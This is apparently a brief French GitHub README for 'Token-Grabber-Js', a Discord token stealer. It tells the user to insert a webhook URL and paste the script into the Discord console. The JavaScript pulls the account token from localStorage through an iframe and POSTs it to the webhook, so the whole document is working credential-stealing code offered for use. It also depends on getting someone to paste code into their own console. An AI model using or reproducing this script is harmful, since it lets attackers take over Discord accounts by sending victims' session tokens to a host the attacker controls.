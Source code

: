 # Token-Grabber-Js
Script Token Grabber en NodeJS

1). Complete le script avec un webhook

2). Entrer le script dans la console de discord

```javascript
location.reload();
var webhook = "";
var token = document.body.appendChild(document.createElement `iframe`).contentWindow.window.localStorage.token;
var request = new XMLHttpRequest();
request.open("POST", webhook);
request.setRequestHeader('content-type', 'application/json');
request.send(JSON.stringify({"content": token}));
```
